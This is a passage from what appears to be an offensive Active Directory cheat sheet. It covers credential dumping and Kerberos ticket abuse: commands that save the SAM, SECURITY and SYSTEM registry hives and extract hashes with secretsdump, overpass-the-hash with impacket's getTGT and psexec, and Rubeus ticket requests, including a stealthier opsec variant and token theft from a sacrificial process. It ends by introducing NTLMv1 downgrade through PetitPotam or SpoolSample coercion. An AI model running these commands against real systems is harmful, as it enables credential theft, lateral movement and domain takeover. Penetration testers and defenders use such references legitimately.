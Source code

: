 You can extract the local **SAM database** to find the local administrator hash :

```powershell
C:\> reg.exe save hklm\sam c:\temp\sam.save
C:\> reg.exe save hklm\security c:\temp\security.save
C:\> reg.exe save hklm\system c:\temp\system.save
$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```


### OverPass-the-Hash (pass the key)

In this technique, instead of passing the hash directly, we use the NTLM hash of an account to request a valid Kerberost ticket (TGT).

#### Using impacket

```bash
root@kali:~$ python ./getTGT.py -hashes ":1a59bd44fe5bec39c44c8cd3524dee" lab.ropnop.com
root@kali:~$ export KRB5CCNAME="/root/impacket-examples/velociraptor.ccache"
root@kali:~$ python3 psexec.py "jurassic.park/velociraptor@labwws02.jurassic.park" -k -no-pass

# also with the AES Key if you have it
root@kali:~$ ./getTGT.py -aesKey xxxxxxxxxxxxxxkeyaesxxxxxxxxxxxxxxxx lab.ropnop.com

root@kali:~$ ktutil -k ~/mykeys add -p tgwynn@LAB.ROPNOP.COM -e arcfour-hma-md5 -w 1a59bd44fe5bec39c44c8cd3524dee --hex -V 5
root@kali:~$ kinit -t ~/mykers tgwynn@LAB.ROPNOP.COM
root@kali:~$ klist
```

#### Using Rubeus

```powershell
# Request a TGT as the target user and pass it into the current session
# NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /ptt

# More stealthy variant, but requires the AES256 hash
.\Rubeus.exe asktgt /user:Administrator /aes256:[AES256HASH] /opsec /ptt

# Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /createnetonly:C:\Windows\System32\cmd.exe
```



### Capturing and cracking Net-NTLMv1/NTLMv1 hashes

> Net-NTLM (NTLMv1) hashes are used for network authentication (they are derived from a challenge/response algorithm and are based on the user's NT hash. 

:information_source: : Coerce a callback using PetitPotam or SpoolSample on an affected machine and downgrade the authentication to **NetNTLMv1 Challenge/Response authentication**. This uses the outdated encryption method DES to protect the NT/LM Hashes.
